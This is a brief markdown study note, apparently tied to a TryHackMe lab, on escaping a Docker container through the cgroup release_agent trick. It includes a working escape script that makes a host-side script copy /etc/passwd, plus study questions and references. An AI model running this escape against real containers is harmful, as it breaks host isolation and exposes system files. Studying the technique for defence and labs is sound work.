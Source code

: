 # Linux capabilities in Docker

## Exploitation

- Remote shell to a compromised website
- Run `ls /` to check whether there is a `.dockerenv` file to confirm we are in a docker container
- Run `capsh --print` to list all capabilities, `capsh --print | grep admin` to show which one we can use to exploit
- Commands to mount

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

echo "$host_path/exploit" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /exploit

echo "cat /etc/passwd > $host_path/passwd.txt" >> /exploit

chmod a+x /exploit

sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"
```

## Questions

- What is `cgroup`?
- Explain each command

## Reference:

- [Escaping Docker Containers Using Linux Capabilities | TryHackMe The Docker Rodeo](https://www.youtube.com/watch?v=vr7Q5xuX814)
- [Understanding Docker container escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so)
